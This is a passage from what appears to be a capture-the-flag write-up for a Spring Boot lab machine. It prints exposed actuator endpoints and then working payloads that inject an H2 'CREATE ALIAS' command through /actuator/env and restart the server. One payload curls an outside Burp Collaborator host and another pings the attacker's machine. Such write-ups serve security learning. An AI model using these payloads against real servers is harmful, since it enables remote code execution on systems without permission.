 ```bash
{"_links":{"self":{"href":"https://spring.thm/actuator","templated":false},"beans":{"href":"https://spring.thm/actuator/beans","templated":false},"health-path":{"href":"https://spring.thm/actuator/health/{*path}","templated":true},"health":{"href":"https://spring.thm/actuator/health","templated":false},"shutdown":{"href":"https://spring.thm/actuator/shutdown","templated":false},"env-toMatch":{"href":"https://spring.thm/actuator/env/{toMatch}","templated":true},"env":{"href":"https://spring.thm/actuator/env","templated":false},"mappings":{"href":"https://spring.thm/actuator/mappings","templated":false},"restart":{"href":"https://spring.thm/actuator/restart","templated":false}}}%
```
{% endcode %}

And we got access to a bunch of actuators. This is a good time to start searching how can we exploit this.

### Exploiting Actuators

So let's google how to exploit what we have gained access to, `"spring boot" "actuator" "exploit"`; [first blog post we find](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators) is showing 3 different methods to exploit actuators. Unfortunately none of those methods works for our application because;

1. There is no `/jolokia` endpoint
2. No `Eureka-Client` is in classpath
3. Even tho `Spring Cloud` is in the classpath, `SnakeYAML` is not.

So let's move on to the [next blog post](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database). Looks like all we need is `Spring-Cloud` and `h2` database on the classpath with `/env` and `/restart` actuators accessable, so we can use this. Let's try getting a ping from target;

#### Original Payload&#x20;

{% code overflow="wrap" %}
```
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('curl  http://x.burpcollaborator.net');"}
```
{% endcode %}

{% hint style="info" %}
Note: we have to escape the `'` quotes if not it won't work.

Then we use `--data-binary $''` to pass the payload.
{% endhint %}

{% code overflow="wrap" %}
```bash
curl -X POST -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' --data-binary $'{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'ping 10.18.88.214 -c 4\');"}' "https://spring.thm/actuator/env" -k

# then restart the server.
curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' "https://spring.thm/actuator/restart" -k
```
{% endcode %}
